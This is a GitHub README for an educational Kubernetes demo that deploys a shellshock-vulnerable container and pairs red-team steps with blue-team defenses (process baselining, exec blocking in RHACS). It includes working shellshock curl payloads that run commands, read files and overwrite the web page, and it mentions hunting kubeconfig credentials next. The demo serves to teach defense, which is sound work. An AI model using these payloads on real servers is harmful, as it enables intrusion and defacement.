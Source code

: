 # Insecure Deployment Demo

This repo is intended to host insecure deployments for educational and demo purposes. These should never be run in privileged mode and should avoid use on public networks.

This deployment is based off of public projects such as the Damn Vulerable Web Application and is intended to be used to demo the shellshock exploit in a Kubernetes environment. Its reccomended to use port forwarding to ensure this is not exposed.

Containerization as a movement has isolated this attack surface.

# Security is about defense in depth.

## Lets attack by peeling back the layers of the onion.

### Layer 1
- Red Team: Application is the outter most layer because these are exposed. 
- Blue Team: Layer one defense - application vulerablility management and dependency management.

### Layer 2
- Red Team: Then lets own the operating system through privledge escalation
- Blue Team: Layer 2 defense - logging & alerting/blocking procceses/hardening/minimizing privledges

### Layer 3
- Red Team: Lets laterally move through the environment get a backdoor and action on objective. 
- Blue Team: Admission controls & backdoor container monitoring.

# Layer 1

## What is shellshock

Improper input validation bash code allowed users to put trailing commands after the definition of environment variables. 

You read this and first think - what uses environment variables.....crap. TONS OF THINGS! SSH, Apache modules, etc.

This meant remote code execution on apaches mod_cgi(d) library used in web servers.

CGI stands for Common Gateway Interface. It is a way to let Apache execute script files and send the
output to the client. So we just need something that will use bash.

# Demo Script

*Note: It's important that this is not exposed to the public internet and highly reccomended to never be run in privlegded mode. (You will actually be hacked if running in privledged mode and publically expose this)* It's reccomended that when using this you only port forward.

## Setup

1. Run shellshock vulerable pod

oc run shellshock --labels=app=shellshock,team=evilcasper --image=vulnerables/cve-2014-6271 -n default

2. Port forward to the pod.

oc port-forward shellshock 8080:80 -n default

## Layer 1: Reconnisance, 

3. Check out the server to do basic reconnisance - by looking at the request headers in the network view of the developer tab. Then check exploitdb.

You want to know more about the application.

Check server headers.

Its obviously vulerable to shellshock and has given us the endpoint. This is convient. 

### Weaponization and delivery

Making it easy for them to find me - the user agent is removed - which is totally normal network traffic :P

Have to make it hard for the copy pasta script kiddies. Also you're never gonna get a website with vulerable as an endpoint.

curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'ls /'" \
http://localhost:8080/cgi-bin/vulnerable

4. Check out the index file for apache

curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /var/www/index.html'" \
http://localhost:8080/cgi-bin/vulnerable

### Exploitation

6. Time to mess with people

curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'echo \"<html><body><h1>I like cat memes - also you should protect your stuff</h1><body><img src=https://miro.medium.com/max/1200/1*7_m4dF9OqBjePqqRyJ1O-g.jpeg></body></html>\" > /var/www/index.html'" http://localhost:8080/cgi-bin/vulnerable

### Blue team


7. Turn on security controls for proccess baselining

Turn on proccess baselining


curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /var/www/index.html'" \
http://localhost:8090/cgi-bin/vulnerable


Observe how me messing with people is blocked and the pod is killed. We're protected by our container isolation and RHACS.

But seriously we own this operating system. Next I need to break out of the container. If the container is privledged this is a peice of cake. Unfortunately this isn't but next I'm looking for some kubeconfigs (credentials to Kubernetes API on the Operating system protected by access controls) to begin privledge escalation. 

Lets assume we got unlucky and this was found now what. We need to mitigate this. 

## Exec into the pod

8. Redeploy shellshock

kubectl run shellshock --labels=app=shellshock,team=evilcasper --image=vulnerables/cve-2014-6271 -n default

oc exec -it shellshock -n default -- bash

10. Observe violation - and then turn policy to blocking mode - now observe this being blocked.

oc exec -it shellshock -n default -- bash

Label can be used to implement exceptions and monitor.


So we're able to stop users with access to the Kube API from being able to access our containers and implement proccesses to allow access for troubleshooting. Containers are supposed to be ephemeral.


## Minimalist containers and risk prioritization

1. Discuss risk prioritization in RHACS

Example: Want to block any high or critical vulerability thats externally facing, or a crown jewel.

Discuss risk



